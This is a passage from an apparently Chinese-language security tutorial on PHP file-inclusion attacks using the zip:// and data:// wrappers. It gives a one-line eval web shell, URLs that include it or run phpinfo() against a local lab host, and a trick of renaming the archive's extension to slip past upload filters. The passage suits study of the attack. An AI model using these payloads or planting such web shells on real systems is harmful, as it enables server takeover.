同`zip://`，只不过把文件内容改成`&lt;?php system('whoami');?&gt;`

<a class="reference-link" name="zip://%EF%BC%88%E5%86%99%E5%85%A5%E6%9C%A8%E9%A9%AC%EF%BC%89"></a>**zip://（写入木马）**

利用条件：
1. php版本大于等于php5.3.0
1. 对allow_url_include不做要求。
1. 对allow_url_fopen不做要求。
姿势：<br>
构造zip包的方法同phar：

写一个木马shell.php，其内容为`&lt;?php [@eval](https://github.com/eval)($_POST[v]);?&gt;`，打包成zip压缩文件格式的压缩包，如下：

[![](https://p2.ssl.qhimg.com/t017c103ca8a6934f38.png)](https://p2.ssl.qhimg.com/t017c103ca8a6934f38.png)

但是使用zip伪协议，需要指定绝对路径，而且压缩包文件和压缩包内的文件之间得用`#`，还要将`#`给URL编码为`%23`，之后填上压缩包内的文件。

```
http://192.168.1.4/fileinclude.php?file=zip://D:/phpStudy/PHPTutorial/WWW/test.zip%23shell.php
```

先访问该url地址，然后马儿就写进去了。

若是使用相对路径，则会getshell失败。

**注意**：这里需要注意的和`phar://`中的注意一样，其中`test.zip`必须得是以zip压缩文件格式压缩，其它像rar、7z这样的压缩文件格式就不行了。不过`test.zip`的后缀可以不是zip，可以是像`test.jpg`，甚至`test.111`这样的后缀都行。这里就涉及到了绕过了，如果zip后缀不让上传，那么就修改为`test.111`这样的后缀肯定不会被拦截了，这时就能成功：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01eab50d98c4e5daaf.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0116fc8fd2617ce859.png)

<a class="reference-link" name="data://"></a>**data://**

数据流封装器，和`php://`相似，都是利用了流的概念，将原本的include的文件流重定向到了用户可控制的输入流中，简单来说就是执行文件的包含方法包含了你的输入流，通过你输入payload来实现目的。

利用条件：
1. php版本大于等于php5.2
1. allow_url_fopen = On
1. allow_url_include = On
姿势一：

```
fileinclude.php?file=data:text/plain,&lt;?php phpinfo();?&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01a535fe6d57397610.png)

姿势二：
